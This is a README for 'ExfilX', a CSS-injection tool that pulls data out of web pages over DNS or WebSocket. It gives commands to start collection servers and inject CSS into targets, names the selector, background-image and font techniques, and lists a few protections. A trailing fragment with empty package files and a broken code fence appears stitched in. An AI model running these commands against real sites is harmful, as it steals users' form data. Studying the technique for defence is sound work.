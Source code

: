 # ExfilX: CSS Injection Data Exfiltration Tool

ExfilX is a tool designed to test for CSS-based data exfiltration vulnerabilities in web applications. It demonstrates how malicious CSS can be used to extract sensitive data from vulnerable web pages using DNS or WebSocket techniques.

## ⚠️ Warning

This tool is for **educational and security testing purposes only**. Only use it on systems you own or have explicit permission to test. Unauthorized use of this tool may violate computer crime laws.

## Features

- Tests for CSS-based exfiltration vulnerabilities
- Injects malicious CSS to extract sensitive data from vulnerable web pages
- Supports multiple exfiltration methods:
  - DNS-based exfiltration
  - WebSocket-based exfiltration
- Includes a server component to capture exfiltrated data

## Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/exfilx.git
cd exfilx

# Install dependencies
pip install -r requirements.txt
```

## Usage

### Starting the Exfiltration Server

To start a DNS exfiltration server:

```bash
python main.py --server --method dns --dns-port 53 --dns-domain exfil.local
```

To start a WebSocket exfiltration server:

```bash
python main.py --server --method websocket --ws-host 127.0.0.1 --ws-port 8765
```

### Testing a Target for CSS Injection

To test a target using DNS exfiltration:

```bash
python main.py --target http://example.com --method dns --dns-domain exfil.local
```

To test a target using WebSocket exfiltration:

```bash
python main.py --target http://example.com --method websocket --ws-host 127.0.0.1 --ws-port 8765
```

### Specifying an Injection Point

If you know where to inject the CSS:

```bash
python main.py --target http://example.com --inject-point style
```

## How It Works

1. **CSS Injection**: The tool injects malicious CSS into the target web page through various injection points.
2. **Data Extraction**: The injected CSS uses techniques like attribute selectors and background images to extract sensitive data.
3. **Exfiltration**: The data is sent to the attacker's server using DNS requests or WebSocket connections.
4. **Data Collection**: The server component captures and processes the exfiltrated data.

## CSS Exfiltration Techniques

ExfilX uses several CSS-based techniques to extract data:

- **Attribute Selectors**: Using CSS selectors like `input[value^="a"]` to test if an input's value starts with "a"
- **Background Images**: Using `background-image: url()` to make HTTP requests containing exfiltrated data
- **Font Loading**: Using `@font-face` and unicode-range to detect character presence

## Protection Measures

To protect against CSS-based data exfiltration:

- Implement proper Content Security Policy (CSP) headers
- Sanitize user input that could be reflected in CSS
- Use HTTP-only cookies for sensitive data
- Implement proper CSRF protection

## License

This project is licensed under the MIT License - see the LICENSE file for details.
```

## 12. Initialize the package directories

```python:__init__.py
# ExfilX main package
```

```python:exfiltration/__init__.py
# Exfiltration methods package
```

```python:payloads/__init__.py
# CSS payloads package
```

```python:server/__init__.py
# Server components package
```

```python:utils/__init__.py
# Utility functions package
```

## How to Use the Tool

1. First, start the exfiltration server to capture data:

```bash
sudo python main.py --server --method dns --dns-port 53 --dns-domain exfil.local
```

2. In another terminal, test a target website for CSS injection vulnerabilities:

```bash
python main.py --target http://example.com --method dns --dns-domain exfil.local
